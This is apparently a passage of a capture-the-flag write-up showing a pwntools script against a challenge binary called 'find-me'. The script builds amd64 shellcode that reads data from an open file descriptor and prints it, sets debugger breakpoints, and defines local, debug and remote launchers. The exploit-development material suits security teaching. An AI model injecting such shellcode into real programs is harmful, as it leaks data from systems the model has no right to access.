 Need 8 byte TAG/Signature

Script/Command used
------------------

```
from pwn import *
import re

PROGRAM_PATH = (Path(__file__).parent / "find-me").resolve().__str__()
BIG_BUFF_SIZE = 256
FD = 1000

gdb_script = """
b *main
b *main+1006
b *main+1161
c
"""


# open-fd2.s
# Big shellcode max size = 256
BigAsm = """
_start:
    xor     eax, eax            
    mov     edi, 1000
    sub     rsp, 0x400
    mov     rsi, rsp
    mov     edx, 0x400
    syscall                     

    mov     edx, eax
    mov     edi, 1              
    mov     eax, 1              
    syscall

    xor     edi, edi
    mov     eax, 60             
    syscall
"""
# above shellcode is 47 bytes.... Put it in the big stack
# WE NEED THE EXIT(0)

BigShellCode = asm(BigAsm, extract=True, arch="amd64", os="linux")
BigShellCodeLen = len(BigShellCode)
print("____________________________________")

print(f"Big Shellcode: {BigShellCode}")
print(f"Big Shellcode length: {BigShellCodeLen}")


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)
```